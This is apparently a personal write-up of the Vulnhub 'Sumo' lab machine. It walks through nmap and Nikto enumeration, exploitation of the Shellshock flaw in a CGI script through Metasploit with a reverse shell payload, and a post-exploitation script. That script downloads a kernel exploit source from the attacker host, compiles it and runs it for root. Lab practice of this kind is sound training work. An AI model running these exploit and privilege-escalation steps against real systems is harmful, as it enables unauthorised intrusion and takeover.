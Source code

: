 # Vulnhub Writeup #5: Sumo

## Key lessons learned:

- Looking only for 200s in gobuster caused me to miss CGI-Bin dir. 
- Not enabling recursion in your automations can make enumeration a pain
- Large desire to read approaches that didn't use Nikto to discover the mod-cgi vulnerability
## Getting started
MITRE ATT&CK Matrix from [Mitre-Attack-Navigator](https://mitre-attack.github.io/attack-navigator)
![](2021-10-28-01-58-47.png)

### nmap output
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### **Enumerating found services**
Semi-Manual techniques
- Opened up ZAP and crawled host's port 80 HTTP server
  - found nothing of note 
- Nikto 
  - found this server was vuln to shellshock
  - was able to identify a directory /cgi-bin/test, as well as a file test.sh
    - I wasn'table to figure out a way to identify these files without Nikto, or what method Nikto used to find them, but it may be related to mod_negotiate being in use on the Apache server
- Gobuster 
  - Didn't get 200s for pages other than index.html with Seclists Discovery Wordlists
  - After having success with Nikto, wrote a script at  [web_enum_resources](web_enum_resources) which was able to identify this folder, as well as a default "it works! file". From here it'd probably take some deduction and research on the cgi directory to ascertain that we could exploit something here.

### **Exploiting found services**
Scanned for shellshock vulnerabilities in MSF. 
```
search shellshock
```
The ```apache_mod_cgi_bash_env_exec``` exploit was returned as an available msf module. Searchsploit could've been used here as well.


## **Post exploit enumeration**
- Checked running processes with ps -aux. Didn't find anything noteworthy. 
- Home directory was also quite bare. 
- Checked listening connections which didn't find anything noteworthy. 
- Checked distro/kernel version and compared it against searchsploit, which turned up an exploit
- Finally just wrote a script that would execute post_enum for me at [Nix-post-exploit-bash_enum_script](Nix-post-exploit-bash_enum_script)
- 
```text 
searchsploit ubuntu 3.2.0 
```

### MSF resource script for exploitation
```
sudo msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set PAYLOAD payload/generic/shell_reverse_tcp
set TARGETURI /cgi-bin/test/test.cgi
set RHOST 172.16.2.44
set LPORT 4444
set CVE CVE-2014-6278
exploit
sessions -i 1 -s /home/kali/targetz/sumo/sumo_post.sh
```

### sumo_post.sh (post exploitation script)
```bash
# sumo_post.sh 
# move here for dirty work
cd /tmp
R="172.16.2.45"
wget $R/pwn.c
chmod +x pwn.c
# fix path, gcc can't see ld binary from tmp 
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
/usr/bin/gcc pwn.c -O2 -o vnik
./vnik 0  # results in root shell
python -c 'import pty; pty.spawn("/bin/sh")'
```

## Other Lessons Learned
Encountered 
``` 
collect2: cannot find 'ld' when compiling in /tmp/
```

Solution at  [stackoverflow](https://stackoverflow.com/questions/35970824/gcc-collect2-fatal-error-cannot-find-ld)

Two Options:
1) modify path
eg. export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin 

 2) copy ld binary to tmp
